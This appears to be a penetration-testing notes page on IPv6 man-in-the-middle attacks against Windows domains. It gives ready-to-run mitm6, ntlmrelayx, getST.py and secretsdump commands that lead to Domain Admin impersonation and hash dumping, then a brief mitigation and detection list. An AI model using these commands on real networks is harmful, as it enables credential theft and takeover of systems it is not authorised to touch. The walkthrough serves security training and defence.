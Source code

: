 # MitM IPv6

{% hint style="info" %}
All Windows versions since Windows Vista (including server variants) have IPv6 enabled and prefer it over IPv4. IPv6 attacks abuses the default IPv6 configuration in Windows networks to spoof DNS replies by acting as a malicious DNS server and redirect traffic to an attacker specified endpoint.
{% endhint %}

## <mark style="color:red;">MITM6</mark>

First we start mitm6, which will start replying to DHCPv6 requests and afterwards to DNS queries requesting names in the internal network.

```
mitm6 -d test.local
```

For the second part of our attack, we use ntlmrelayx to relay the captured hashes. Now i will show two possible ways to use this tool, first through a simple SMB relay like we saw earlier

```
ntlmrelayx.py -6 -tf Targets.txt -socks -smb2support
```

In this case, the attack is pretty much the same as the one we saw earlier we juste replaced responder with mitm6 for the obvious reasons previously mentionned.now, another attack is possible through **WPAD serving.** WPAD is a protocol used to ensure all systems in an organization use the same web proxy configuration. Instead of individually modifying configurations on each device connected to a network, WPAD locates a proxy configuration file and applies the configuration automatically. More details about this attack can be found in the references. using ntlmrelayx to also implement this attack, we launch the attack using the following command :

```
ntlmrelayx.py -6 -wh attacker.test.local -tf targets.txt -l loot -socks -debug
```

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6" %}

## <mark style="color:red;">NTLM Relay + Kerberos Delegation</mark>

When Windows configured for DHCP boots, it looks for DHCP configuration, and then proxy configuration using WPAD. That way, when the victim computer boots and starts looking for proxy config, the machine account tries to authenticate to us.

1. **We set up a man-in-the-middle DHCP server on IPv6 and serve a DNS IPv6 configuration that points to our rogue DNS IPv6 server.**
2. **When the victim uses WPAD to look for a proxy configuration file over DNS, we let it connect to our fake proxy server and then prompt for authentication using a `407 Authentication Required` request.**
3. **We capture and relay the (encrypted) credentials of the machine account to LDAPS on the domain controller (DC).**
4. **We ask the DC over LDAPS to create a new machine account. Active Directory allows any user account, including machine accounts to add 10 machine accounts by default.( NOTE: LDAPS and not LDAP, because creating machines over unencrypted channels is prohibited)**
5. **We now have credentials for a machine account. The reason we create a machine account is that we need access to an account with a Service Principal Name (SPN).**
6. **We now ask the DC to configure resource-based constrained delegation for this new machine account on the victim computer object. For example: the machine account `WS02$` sets the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the computer object `WS02` to allow the newly created machine account to impersonate users on it.**
7. **We request a service ticket using the machine account that was created, where we impersonate a user that has local admin access to our target computer.**
8. **We use the service ticket to access the computer with local admin privileges. The ticket with these privileges is only valid on the target box.**

Now off to the commands :

#### 1st, mitm6 as explained previously (in this case limiting just the attack on the icorp-w10 host but can be fully utilized on others) :

```
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
```

#### 2nd, ntlmrelayx :

```
ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access
```

#### 3rd, we can use `getST.py` from ntlmrelayx, which will do all the S4U2Self an S4U2Proxy magic for us. You will need the latest version of impacket from git to include resource based delegation support. In this example we will be impersonating the user `admin`, which is a member of the `Domain Admins` group and thus has administrative access on `ICORP-W10`

```
getST.py -spn cifs/icrop-w10.internal.corp internal.corp/account_created_by_previous_cmd -impersonate admin
```

Once that done, you should've the keberos service ticket for the user admin saved in admin.ccache file and is valid for cifs/icorp-w10.internal.corp. This only lets us impersontate this user to this specific host, not to other hosts in the network. With this ticket we can do whatever we want on the target host for, for example dumping hashes with secretdumps:

```
export KRB5CCNAME=admin.ccache
secretsdump.py -k -no-pass icrop-w10.internal.corp
```

The attacker now has full control over the victim workstation.

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation" %}

{% embed url="https://chryzsh.github.io/relaying-delegation" %}

## <mark style="color:red;">Mitigation</mark>

* Consider NTLM relay mitigations.
* Disable IPv6 on all systems if you are not using any related network services.
* If using IPv6, configure the DNS settings on all systems. (broadcast DHCPv6 will make DNS take over possible).
* Disable `Proxy Auto detection` via group policy to prevent WPAD attacks.
* If your company uses a proxy configuration file internally (PAC file) it is recommended to explicitly configure the PAC url instead of relying on WPAD to detect it automatically.

## <mark style="color:red;">Detection</mark>

* Monitor the traffic for unknown DHCPv6 / DNS servers.
